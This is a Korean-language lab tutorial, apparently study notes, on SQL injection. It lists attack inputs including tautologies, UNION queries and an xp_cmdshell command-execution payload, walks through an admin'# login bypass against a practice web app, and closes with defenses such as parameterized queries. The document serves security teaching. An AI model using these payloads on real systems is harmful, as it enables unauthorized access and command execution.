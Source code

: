 
# SQL Injection

<center><img src = "https://user-images.githubusercontent.com/76420201/106089260-ee74ed00-616a-11eb-8fe7-1ac6681d5e2e.png" ></center>

SQL Injection 이란 악의적인 사용자가 보안상의 취약점을 이용하여, 임의의 SQL 문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위 입니다. 인젝션 공격은 비교적 쉬운 편이고 공격에 성공할 경우 큰 피해를 입힐 수 있는 공격입니다.

- 외부 입력값을 쿼리 조작 문자열 포함 여부를 검증하지 않고 SQL문 생성 및 실행에 사용하는 경우 <br>
    - 쿼리의 의미와 구조가 변경되어서 실행
    - 의도하지 않은 데이터베이스에 대한 조작이 가능

## 공격자 패턴

1. 항상 참이 되는 입력
ex) a' or 'a' = 'a
select * from users where name = 'a' or 'a' = 'a' -> 모든 데이터를 조회 -> 권한 밖에 데이터에 접근 가능

2. 오류를 유발하는 입력

ex) a'
-> select * from users where name = 'a'' -> 구분 오류를 유발

시스템 오류를 통해서 시스템 내부 정도 수집에 활용

3. 추가 정보를 조회하는 입력
ex) hong' union select * from ... --
select * from users where name = 'hong' 
union
select * from ... --

4. 시스템 명령어 실행하는 입력

입력 ex) hong'; exec xp_cmdshell 'cmd.exe /c ipconfig'; -- 
select * from users where name = 'hong'; exec xp_cmdshell 'cmd.exe /c ipconfig'; -- '

해당 DBMS의 쉘 이용이 가능 = 제어권을 탈취


5. 참, 거짓을 유발하는 입력 ⇒ Blind SQL Injection

## SQL Injection을 이용한 인증과정 우회

@Attacker 가상머신에서 Proxy를 해제 후 http://winxp:8080/openeg로 접속

#1 처리 과정을 추측
사용자 입력
ID: a
PW: b

서버로 전달
http://winxp:8080/openeg/login.do?userid=a&userpw=b

서버에서 처리
select * from users where user_id = 'a' and user_pw = 'b'

#2 입력값이 검증 없이 처리에 사용되는지 여부를 확인
사용자 입력
ID: a'
PW: b'

서버로 전달
http://winxp:8080/openeg/login.do?userid=a'&userpw=b'

서버에서 처리
select * from users where user_id = 'a'' and user_pw = 'b''
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~===

HTTP Status 500 -
type Exception report

message
description The server encountered an internal error () that prevented it from fulfilling this request.

exception
org.springframework.web.util.NestedServletException: Request processing failed; nested exception is org.springframework.jdbc.BadSqlGrammarException: SqlMapClient operation; bad SQL grammar []; nested exception is com.ibatis.common.jdbc.exception.NestedSQLException:   
--- The error occurred in kr/co/openeg/lab/login/dao/login.xml.  
--- The error occurred while applying a parameter map.  
--- Check the login.loginCheck2-InlineParameterMap.  
--- Check the statement (query failed).  
--- Cause: com.mysql.jdbc.exceptions.jdbc4.MySQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'b''' at line 1
	org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:894)
					:

#3 수집한 정보를 이용해서 추가 공격 시도
사용자 입력
ID: a'#
PW: b'#

서버로 전달
http://winxp:8080/openeg/login.do?userid=a'#&userpw=b'#

서버에서 처리
select * from users where user_id = 'a'#' and user_pw = 'b'#'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


#4 가입된 회원 정보를 조회
amdin으로 회원 가입을 시도 → 이미 가입된 회원 ⇒ admin 이라는 아이디를 사용하는 사용자가 존재


#5 admin으로 로그인을 시도
사용자 입력
ID: admin'#
PW: b'#

서버로 전달
http://winxp:8080/openeg/login.do?userid=admin'#&userpw=b'#

서버에서 처리
select * from users where user_id = 'admin'#' and user_pw = 'b'#'






## 방어 기법

방어기법
- 쿼리 조작 문자열 포함 여부를 확인
    - 제거하고 사용
    - 안전한 형태로 바꿔서 사용
- 일정한 형태로 쿼리가 실행되는 것을 보장 = 구조화된 쿼리 실행 = 파라미터화된 쿼리 실행 = 정적 쿼리 실행
- 오류 메시지를 통제 = 오류 메시지에 시스템 정보가 포함되지 않도록 처리
- 어플리케이션에서 사용하는 DB 사용자의 권한을 최소로 부여
